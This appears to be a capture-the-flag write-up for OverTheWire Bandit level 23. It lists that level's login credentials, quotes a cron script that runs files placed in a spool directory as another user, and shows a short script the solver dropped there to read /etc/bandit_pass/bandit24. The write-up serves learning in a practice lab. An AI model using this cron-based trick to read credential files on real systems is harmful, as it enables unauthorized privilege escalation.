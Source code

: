 # OverTheWire Bandit Level 23

## Credentials
username: bandit23
password: QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G

## Writeup
I was once again directed to the crontab directory. The cronjob for level24 runs a shell script with the following code.

```
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
```

I have to create a shell script and place it in /var/spool/bandit24/foo for it to be executed.

This is the shell script I used:

```
#!/bin/bash

cat /etc/bandit_pass/bandit24
```

